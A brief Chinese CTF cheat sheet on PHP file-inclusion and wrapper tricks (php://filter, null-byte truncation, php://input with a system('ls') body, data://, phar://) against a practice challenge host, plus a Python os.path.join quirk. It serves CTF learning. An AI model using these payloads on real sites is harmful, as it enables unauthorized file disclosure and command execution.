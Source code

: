 第三种与第一种相似，但是无法利用`Wrapper`进行文件包含

### include

```
php://filter/read=convert.base64-encode/resource=flag.php
```

如果遇到一些奇怪的关键字限制

```php
if( strpos( $file, "woofers" ) !==  false || strpos( $file, "meowers" ) !==  false || strpos( $file, "index")){   //必须含有woofers或meowers或index字符串
　　　　　　include ($file . '.php');  //参数后拼接.php
}
```

两种方案，第一种是使用00截断

```
http://6bf8e619-2004-4945-8cf0-1b438d58e4c2.node4.buuoj.cn:81/index.php?category=php://filter/read=convert.base64-encode/resource=flag%00woofers
```

实测可以截断成功但是include出现了一些问题，暂时还不知道为什么，echo出来的参数是没有截断的，但是报错信息给出来的是可以截断的，这个问题暂时放一下

第二种方案是把关键字加在前面

```
http://6bf8e619-2004-4945-8cf0-1b438d58e4c2.node4.buuoj.cn:81/index.php?category=php://filter/read=convert.base64-encode/woofers/resource=flag
```

或者使用php://input，使用post传参数<?php system('ls') ?>

### file_get_content

file_get_content()这个函数不可以读变量的值，但是可以通过传入伪协议读文件,比如直接读flag文件

```
data://text/plain;base64,SSBsb3ZlIFBIUAo=
```

### phra

使用如下方法

```
file.php?file=phar://upload/46a1b93b4756841e1169e9cf9ebf3ecf.jpg
```

## Python

问题常常是因为Python函数的feature,如`os.path.join()`

```python
>>> os.path.join("/a","/b")
'/b'
```
